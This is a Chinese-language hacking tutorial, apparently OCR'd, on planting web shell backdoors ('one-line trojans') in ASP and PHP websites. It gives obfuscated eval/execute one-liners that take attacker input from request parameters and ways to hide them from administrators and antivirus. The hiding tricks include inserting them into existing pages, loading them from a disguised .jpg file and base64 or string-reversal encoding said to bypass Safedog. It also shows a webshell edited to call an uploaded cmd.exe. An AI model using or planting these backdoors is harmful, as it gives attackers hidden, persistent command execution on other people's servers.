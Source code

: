 我也试过用一句话插入WellShell的某个ASP文件里面,可是访问时经常出错,而插入两句话木马服务端却可以正常访问了,对站点的页面无任何影响.

这样就达到了隐蔽性更强的目的了,他管理员总不会连自己的网页文件都删了吧.

现在我的WellShell都有这样的后门.选择要插入两句话木马的ASP文件要注意,选一些可以用IE访问的ASP文件,不要选conn.asp这样的文件来插入.

当然,连接两句话木马的客户端仍然是用一句木马的客户端,不用修改.
### 一句话免杀
#### 变形法
比如：eval(request("#"))这样的马儿呢，一般情况下是不被杀的。但实际上，经常杀毒软件会把eval(request列为特征码。所以我们变形一下
~~~
E=request(“id”)

eval(E)
~~~
这样可达到免杀的目的。

例如：<%execute request(“1”)%> 变形后：
~~~

<%E=request(“1”)


execute E%>
~~~
当然，这种变形是最好做的。

介绍第二种方法：因为很多管理员很聪明，它会检查ASP文件中的execute和eval函数。所以呢，不管你怎么反编译，它最终总是要用其中的一个函数来解释运行，所以还是被发现了。好么，我们用外部文件来调用。建一个a.jpg或者任何不被发现的文件后缀或文件名。写入 execute(request("#"))当然，你可以先变形后现放上去。然后在ASP文件中插入

来引用它，即可。

不过，管理员可以通过对比文件的方式找到修改过的文件，不过这种情况不多。

在WEBSHeLL中使用命令提示

在使用ASP站长助手6.0时点击命令提示符显示“没有权限”的时候，可以使用ASP站长助手上传CMD.exe到你的WEBSHELL目录（其它目录也行，把上传以后的CMD.exe绝对路径COPY出来），再修改你的WEBSHELL找到调用CMD.EXE的代码。原来的代码如下
~~~

.exec("cmd.exe /c "&DefCmd).stdout.readall
~~~
修改为

.exec(“你想上传的cmd.exe绝对路径” /c"&DefCmd).stdout.readall

比如你上传到的目录是D：\web\www\cmd.exe,那么就修改成

.exec(“D：\web\www\cmd.exe /c”&DefCmd).stdout.readall

支持变异菜刀连接以过安全狗,过啊D 文件扫描的一句话

实已经不是一句话了，好几句了都。

继续上次的：我使用的一句话的几种姿态

这回研究了下PHP，发一下我使用的一句话（可过文件扫描）。

### ASP
~~~
<?php $mujj = $_POST['z']; if ($mujj!="") { $xsser=base64_decode($_POST['z0']); @eval("\$safedg = $xsser;"); } ?>
~~~
密码z，支持菜刀连接；支持变异菜刀连接以过安全狗。
### ASP
~~~

<% Function MorfiCoder(Code) MorfiCoder=Replace(Replace(StrReverse(Code),"//",""""),"*",vbCrlf)
End Function
Execute MorfiCoder(")//z/*/(tseuqer lave") %>
~~~